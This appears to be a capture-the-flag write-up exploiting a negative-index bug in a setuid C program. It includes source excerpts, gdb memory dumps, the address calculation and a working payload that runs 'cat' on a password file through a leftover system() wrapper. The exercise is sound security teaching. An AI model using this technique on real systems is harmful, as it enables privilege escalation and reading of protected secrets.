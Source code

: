 ## Level 3: validate user input and array boundaries

As before,
the password for the next level is in `/home/level03/.password`,
and a vulnerable setuid program with its source code is in `/levels/level03`.

Let's first play with the program to see what it does:
```
level02@box:~$ /levels/level03/level03
Usage: ./level03 INDEX STRING
Possible indices:
[0] to_upper    [1] to_lower
[2] capitalize  [3] length
level02@box:~$ /levels/level03/level03 0 hello
Uppercased string: HELLO
level02@box:~$ /levels/level03/level03 2 hello
Capitalized string: Hello
level02@box:~$ /levels/level03/level03 3 hello
Length of string 'hello': 5
```

It takes a string and runs some function on it depending on the index parameter.
Let's try to misuse this, for example with a negative index:
```
level02@box:~$ /levels/level03/level03 -1 x
Segmentation fault
```

Ouch. That can't be good.
Let's look at the relevant source code to see what happens to a negative index:
```
int main(int argc, char **argv) {
  int index;
  fn_ptr fns[NUM_FNS] = {&to_upper, &to_lower, &capitalize, &length};

  // Parse supplied index
  index = atoi(argv[1]);

  return truncate_and_call(fns, index, argv[2]);
}
```

The `main` method converts the index to an integer,
and calls `truncate_and_call` with 
an array of functions, the index, and the string argument.
Let's see this other function:
```
int truncate_and_call(fn_ptr *fns, int index, char *user_string) {
  char buf[64];
  // Truncate supplied string
  strncpy(buf, user_string, sizeof(buf) - 1);
  buf[sizeof(buf) - 1] = '\0';
  return fns[index](buf);
}
```

It truncates the string to 64 characters,
takes a function pointer from the `fns` array,
and calls it using the truncated buffer as parameter.

By applying pointer arithmetics,
a negative index will reference a memory location before the beginning of `fns`,
which happens to be on the stack.
The stack is a memory region to store local variables,
function parameters, return values, among others.
Roughly the following happens when `truncate_and_call` is called from `main`:

1. The function parameters are pushed on the stack in reverse order:
   the string, the index, the array of functions.

2. The pointer to the next instruction is pushed on the stack.

3. The function `truncate_and_call` is called.

4. The local variable `buf` is pushed on the stack.

When we reach the line of `fns[index](buf)`,
the content of the stack looks something like this:
```
0x0000      content of buf (1024 bytes)
0x0040+?    the return address
...
0x0040+X    content of fns (16 bytes) -->
0x0040+X        address of to_upper (4 bytes)
0x0040+X+4      address of to_lower
...
0x00??      content of index
0x00??      content of user_string
```

If index is 0-3,
the program will find the address of `to_upper`, `to_lower`, and so on,
and execute it.
Using a negative index,
the program will do the same with whatever it finds at that location.

Now,
if the content of `buf` is stored in the region before `fns`,
we can put there the address of another function,
and use the appropriate negative index to make the program execute it.
The unused `run` function that was careless left inside the program looks perfect for our purposes:
```
int run(const char *str) {
  // This function is now deprecated.
  return system(str);
}
```

It takes a string and calls `system`,
which in turn will run it in the shell.
Since we can control the parameter,
we can make the program run whatever we want.
We can find the address of `run` using `objdump`:
```
level02@box:~$ /levels/level03/level03 -1 x
level02@box:~$ objdump -d /levels/level03/level03 | grep run
0804879b <run>:
080487ae <truncate_and_call>:
 8048806:   74 05                   je     804880d <truncate_and_call+0x5f>
 80488f1:   e8 b8 fe ff ff          call   80487ae <truncate_and_call>
```

To find the right negative index,
we need to figure out the distance between `fns` and `buf` in the memory.
We can do that using `gdb`:
```
level02@box:~$ gdb /levels/level03/level03
(gdb) run -1 AAAAAAAA
Starting program: /levels/level03/level03 -1 AAAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0xb77e1334 in ?? () from /lib/libc.so.6
```

That is,
we run the program with a negative index to make it crash,
and `AAAAAAAA` as the string to make it easy to spot when we inspect the memory content.
When the program crashes,
`gdb` outputs the address of the code it could not execute,
in this example `0xb77e1334`.
Let's see the first couple of bytes of the stack:
```
(gdb) x/60xw $sp      
0xbfae3d5c: 0xbfae3dd8  0x00000001  0x00000000  0x00000000
0xbfae3d6c: 0x41414141  0x41414141  0x00000000  0x00000000
0xbfae3d7c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
0xbfae3ddc: 0x08048680  0x080486dc  0x08048759  0x0000044e
```

The string `AAAAAAAA` is easy to spot,
now we know that `buf` starts at `0xbfae3d6c`.
And since `fns[-1]` contains `0xb77e1334`,
now we also know that `fns[0]` is at `0xbfae3dd8`.
Before we can calculate the correct negative index,
consider that we need to use `buf` for more than one purpose:

1. It should contain the address of the `run` method somewhere within.

2. It should start with shell command that
   reveals the content of the password file.

If, for example,
we put the command `cat /home/level03/.password;` in the string,
followed by the address of the `run` method,
the memory content will look something like this:
```
0xbfae3d6c:   c a t       / h o m     e / l e     v e l 0
0xbfae3d7c:   3 / . p     a s s w     o r d ;   0x0804879b
0xbfae3d8c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3d9c: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfae3dac: 0xaf5a90a9  0x00000000  0x0000000a  0xbfae3df8
0xbfae3dbc: 0x080488f6  0xbfae3dd8  0xffffffff  0xbfae4e4b
0xbfae3dcc: 0x08048921  0xb7705f52  0xb77e1334  0x08048624
```
The difference between `fns` and the jump address is `0xbfae3dd8 - 0xbfae3d88 = 80`,
and since the size of an element in `fns` is 4 bytes,
the index we're looking for is `-80 / 4 = -20`:
```
level02@box:~$ /levels/level03/level03 -20 "cat /home/level03/.password;$(printf '\x9b\x87\x04\x08')"
eingaima
cat: can't open '��': No such file or directory
```

### Lessons to learn

- When validating user input,
  remember to consider nonsense input too,
  like negative indexes in this example.
  This is also known as *fuzz testing*.

- Always check array boundaries:
  make sure they are not breached at either end.

- Remove unused, deprecated code,
  especially if it may be dangerous.

